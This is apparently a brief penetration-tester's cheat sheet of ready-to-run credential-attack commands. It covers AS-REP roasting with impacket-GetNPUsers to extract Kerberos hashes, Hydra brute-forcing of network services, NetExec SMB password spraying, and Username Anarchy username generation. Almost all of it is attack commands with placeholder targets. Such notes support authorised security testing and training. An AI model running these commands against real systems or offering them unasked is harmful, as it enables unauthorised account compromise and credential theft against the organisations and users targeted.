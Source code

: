 # ASREPRoasting

Extract hashes from user accounts that do not require pre-authentication
```
unames.txt can be generated with a tool like Username Anarchy, etc.

while read u; do impacket-GetNPUsers fqdn/"$u" -request -no-pass -dc-ip ipaddress >> hashes.txt; done < unames.txt
```

# Hydra

Brute Force Service
`hydra -l username -P passwordlist ipaddress servicename`

File user:pass Format
`hydra -C userpass.txt ipaddress servicename`

# NetExec

Password spray one pass (e.g., default new user pass)
`nxc smb ipaddress -u userlist.txt -p 'password' --continue-on-success`

Password spray username = password cred combinations
`nxc smb ipaddress -u users.txt -p users.txt --no-bruteforce --continue-on-success`

# Username Anarchy

Generate Usernames From Full Names
`./username-anarchy --input-file ../fullnames.txt --select-format first,flast,first.last,firstl > ../unames.txt`
